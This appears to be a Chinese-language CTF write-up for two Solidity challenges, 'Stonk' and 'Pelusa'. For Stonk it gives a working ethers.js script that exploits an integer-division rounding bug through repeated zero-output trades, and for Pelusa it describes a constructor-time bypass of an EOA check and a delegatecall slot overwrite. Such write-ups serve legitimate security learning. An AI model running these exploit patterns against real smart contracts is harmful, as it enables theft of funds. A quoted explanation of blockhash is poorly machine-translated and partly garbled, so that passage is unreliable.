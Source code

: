 # 7. Stonk

问题在于：

`        require(amountGMEin / ORACLE_TSLA_GME == amountTSLAout, "Invalid price"); `

因为solidity中没有小数，所以会导致会有整除为0的情况，即`1/2=0`，也就是将`GME`换成`TSLA`时，可以小额兑换，实际什么也拿不到。

一开始，想用合约去攻击，后来发现写死有`msg.sender`，所以只能用js去写了。

```javascript
const abi = [
    "function buyTSLA(uint256 amountGMEin, uint256 amountTSLAout)",
    "function sellTSLA(uint256 amountTSLAin, uint256 amountGMEout)"
];

const addressStonk = '0x1552F5d5e9d31E51a412a8E5DA2b8F27040Dfb3a';
const contract= new ethers.Contract(addressStonk, abi, provider);

console.log(contract);

async function attack(){
    const tx1 = await contract.connect(hacker).sellTSLA(20,1000);
    await tx1.wait();
    console.log(tx1);

    for (i = 0 ;i < 50; i++){
        await contract.connect(hacker).buyTSLA(40,0);
    }
}

attack();
```

PS : Gas 杀手！

<hr />

# 8. Pelusa

有一点限制`        require(msg.sender.code.length == 0, "Only EOA players"); `且还要实现`IGame`和`handOfGod()`函数。这就表明要在创建过程`code.length=0`时调用`passTheBall`。且还要通过`delegateCall`修改第二个槽上的变量。

这里好像遇到一个大坑！在`remix`中，不同区块下blockhash结果似乎不一样？仔细研究了一下：

```
所述block.number状态变量允许获得所述当前块的高度。当矿工获得执行合约代码的交易时，block.number该交易的未来区块的 的 是已知的，因此合约可以可靠地访问其价值。但是，在 EVM 中执行交易的那一刻，由于显而易见的原因，正在创建的区块的区块哈希尚不可知，并且 EVM 将始终产生零。
```

所以：

```solidity
        value = address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number))))));
        value2 = address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, bytes32(0))))));
```
